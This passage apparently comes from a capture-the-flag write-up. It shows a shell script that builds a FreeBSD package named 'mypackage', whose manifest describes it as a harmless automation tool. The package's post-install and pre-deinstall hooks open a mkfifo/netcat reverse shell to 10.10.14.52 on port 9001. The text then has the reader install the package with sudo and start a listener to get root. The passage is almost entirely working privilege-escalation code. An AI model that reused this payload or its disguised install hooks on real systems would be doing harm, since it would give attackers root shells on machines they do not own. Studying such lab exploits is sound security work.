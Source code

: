 The script :

```bash
#!/bin/sh
STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
echo "deps: {" >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
echo "}" >> ${STAGEDIR}/+MANIFEST
mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
```

- Save the script and making executable : _chmod +x script.sh_
- execute the script and note to see a package made named : mypackage-1.0_5.txz.
- Run : ***sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz*** (no repo update to stop it from check from an online source) and start a listener.

<p align="center">
 <img src="images/schooled15.png">
</p>
